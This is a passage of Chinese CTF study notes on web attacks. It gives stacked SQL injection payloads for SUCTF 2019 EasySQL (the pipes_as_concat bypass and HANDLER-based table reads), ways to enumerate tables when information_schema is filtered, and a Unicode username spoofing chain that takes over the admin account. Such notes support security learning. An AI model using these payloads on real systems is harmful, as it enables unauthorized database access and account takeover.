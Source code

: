 



### 4、堆叠注入

[[SUCTF 2019\]EasySQL](https://www.cnblogs.com/Jinx8823/p/16478705.html)

[MySQL的sql_mode合理设置](https://www.cnblogs.com/Junglezt/p/16657688.html)

```nginx
当注入的源码语句为：select $_POST[‘query’] || flag from Flag
绕过方式有两种：
	select *,1 || flag from Flag  # || 这个符号在linux里是管道符，前面命令为真，不执行后面语句
	1;set sql_mode=pipes_as_concat;select 1
	pipes_as_concat： 将"||"视为字符串的连接操作符而非或运算符
	这是整个语句就变成了：select concat(1,flag)from Flag


1' ; show databases; 				# 爆破数据库
1 ' ; show tables from supersqli;   # 爆表
1 ' ; show columns from `FlagHere`; # 爆字段

拿flag
1';
handler score open;		//打开一个表名为 FlagHere的表的句柄
handler score read first;//获取句柄的第一行（相当于第一个字段）
handler score close;#  	//关闭句柄

1';handler score open;	handler score read first;handler score close;#
```

### 5、or关键字被过滤（留言板类型注入）

-   被过滤就无法使用information_schema库，

    -   替代使用mysql.innodb_table_stats查询表名,`table_schema`用`database_name`

-   information_schema库用不了，使用sys.x$schema_flattened_keys来爆表名

-   ```sql
    替代使用mysql.innodb_table_stats查询表名
    `table_schema`用`database_name`
    
    mysql.innodb_table_stats表下分别是
    `database_name`,`table_name`,`index_name`。你用了这个表，相对的也要换成`database_name`
    ```




### 6、Unicode欺骗

```nginx
对于一些特殊字符，nodeprep.prepare会进行如下操作
ᴬ -> A -> a
那么，攻击链大概就这样

注册用户ᴬdmin
登录用户ᴬdmin，变成Admin
修改密码Admin，更改了admin的密码

注册用户admin"#  
来闭合sql语句和注释掉后面的sql语句，
并admin"#账户的密码，修改后的密码即为admin账户的密码
```
